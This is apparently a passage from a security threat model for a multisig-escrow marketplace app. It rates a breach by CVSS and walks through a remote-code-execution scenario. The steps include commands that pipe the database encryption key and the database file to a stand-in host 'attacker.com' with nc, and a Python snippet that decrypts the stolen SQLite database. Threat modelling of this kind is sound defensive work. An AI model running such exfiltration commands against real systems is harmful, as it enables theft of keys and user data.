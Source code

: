 **Impact:**
- **ALL multisig data decrypted** (buyer/vendor/arbiter info)
- **Transaction history revealed** (deanonymization)
- **Wallet addresses linked** (blockchain analysis)

**CVSS Justification:**
- **AV:N (Network)** - RCE can read filesystem remotely
- **AC:L (Low)** - No additional authentication required
- **PR:H (High)** - Requires root/admin access
- **C:H (High)** - Total confidentiality loss
- **I:H (High)** - Attacker can modify DB with valid key
- **A:H (High)** - DB can be destroyed or locked

---

### Attack Scenario 2: Remote Code Execution (RCE)

**Adversary:** Sophisticated hacker exploiting web server vulnerability
**Capability:** Remote code execution as `www-data` or `root`

**Attack Steps:**
1. **Initial Access:** Exploit CVE in Actix-Web, Diesel, or dependency
2. **Privilege Escalation:** Exploit kernel vuln to gain root (if needed)
3. **Filesystem Enumeration:**
   ```bash
   # Attacker's reverse shell
   find /home -name ".env" -type f 2>/dev/null
   # Output: /home/marketplace/.env
   ```
4. **Key Exfiltration:**
   ```bash
   cat /home/marketplace/.env | grep DB_ENCRYPTION_KEY | nc attacker.com 4444
   ```
5. **Database Exfiltration:**
   ```bash
   # Copy encrypted DB to attacker
   cat marketplace.db | nc attacker.com 4444
   ```
6. **Offline Decryption:**
   ```python
   # Attacker's machine
   import sqlite3
   conn = sqlite3.connect('marketplace.db')
   conn.execute("PRAGMA key = '3f7a8b2c...'")
   cursor = conn.execute("SELECT * FROM multisig_states")
   print(cursor.fetchall())  # GAME OVER
   ```

**Impact:**
- **Silent breach** - No detection until funds stolen
- **Complete deanonymization** - All users compromised
- **Fund theft** - Attacker can extract multisig keys

---
